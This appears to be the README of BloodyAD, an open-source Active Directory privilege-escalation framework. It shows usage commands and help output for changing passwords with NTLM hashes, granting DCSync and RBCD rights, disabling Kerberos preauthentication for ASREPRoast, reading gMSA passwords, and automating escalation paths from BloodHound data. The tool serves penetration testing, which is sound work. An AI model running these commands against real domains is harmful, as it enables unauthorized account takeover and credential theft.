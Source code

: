 # BloodyAD Framework
BloodyAD is an Active Directory Privilege Escalation Framework, it can be used manually using `bloodyAD.py` or automatically by combining `pathgen.py` and `autobloody.py`.

This framework supports NTLM (with password or NTLM hashes) and Kerberos authentication and binds to LDAP/LDAPS/SAMR services of a domain controller to obtain AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## bloodyAD
### Description
This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
Use the requirements.txt for your virtual environment: `pip3 install -r requirements.txt`

### Usage
Simple usage:
```ps1
python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword mytarget 'Password123!'
```

List of all available functions:
```ps1
[bloodyAD]$ python bloodyAD.py -h
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] [--host HOST]
{getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,
addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,
setRbcd,setDCSync,setUserAccountControl}
                          ...

Active Directory Privilege Escalation Framework

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s , --secure         Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Command:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,
  addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,
  setRbcd,setDCSync,setUserAccountControl}   Function to call
```

Help text to use a specific function:
```ps1
[bloodyAD]$ python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

### How it works
bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.

### Useful commands
```ps1
# Get group members
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
python bloodyAD.py -u john.doe -d bloody -p Password512 --host 192.168.10.2 -s ldaps getObjectAttributes gmsaAccount$ msDS-ManagedPassword
```
## autobloody
### Description
This tool automate the AD privesc between two AD objects, the source (the one we own) and the target (the one we want) if a privesc path exists.
The automation is split in two parts:
- `pathgen.py` to find the optimal path for privesc using bloodhound data and neo4j queries.
- `autobloody.py` to execute the path found with `pathgen.py`

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
- BloodHound
- Neo4j python driver
- Neo4j with the [GDS library](https://neo4j.com/docs/graph-data-science/current/installation/)

### How to use it
First data must be imported into BloodHound (e.g using SharpHound or BloodHound.py) and Neo4j must be running.

Simple usage:
```ps1
pathgen.py -dp neo4jPass -ds 'OWNED_USER@ATTACK.LOCAL' -dt 'TARGET_USER@ATTACK.LOCAL' && autobloody.py -d ATTACK -u 'owned_user' -p 'owned_user_pass' --host 172.16.1.15
```

Full help for `pathgen.py`:
```ps1
$ python pathgen.py -h
usage: pathgen.py [-h] [--dburi DBURI] [-du DBUSER] -dp DBPASSWORD -ds DBSOURCE -dt DBTARGET [-f FILEPATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  --dburi DBURI         The host neo4j is running on. Default: localhost.
  -du DBUSER, --dbuser DBUSER
                        Neo4j username to use
  -dp DBPASSWORD, --dbpassword DBPASSWORD
                        Neo4j password to use
  -ds DBSOURCE, --dbsource DBSOURCE
                        Case sensitive label of the source node (name property in bloodhound)
  -dt DBTARGET, --dbtarget DBTARGET
                        Case sensitive label of the target node (name property in bloodhound)
  -f FILEPATH, --filepath FILEPATH
                        File path for the graph path file (default is path.json)
```

Full help for `autobloody.py`:
```ps1
$ python autobloody.py -h
usage: autobloody.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] --host HOST [--path PATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s , --secure         Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --path PATH           Path file (to generate with pathgen.py)

```

### How it works
First `pathgen.py` generates a privesc path using the Dijkstra's algorithm implemented into the Neo4j's GDS library.
The Dijkstra's algorithm allows to solve the shortest path problem on a weighted graph. By default the edges created by bloodhound don't have weight but a type (e.g MemberOf, WriteOwner). A weight is then added to each edge accordingly to the type of the edge and the type of the node reached (e.g user,group,domain).

Once a path is generated and stored as a json file, `autobloody.py` will connect to the DC and execute the path and clean what is reversible (everything except password change).
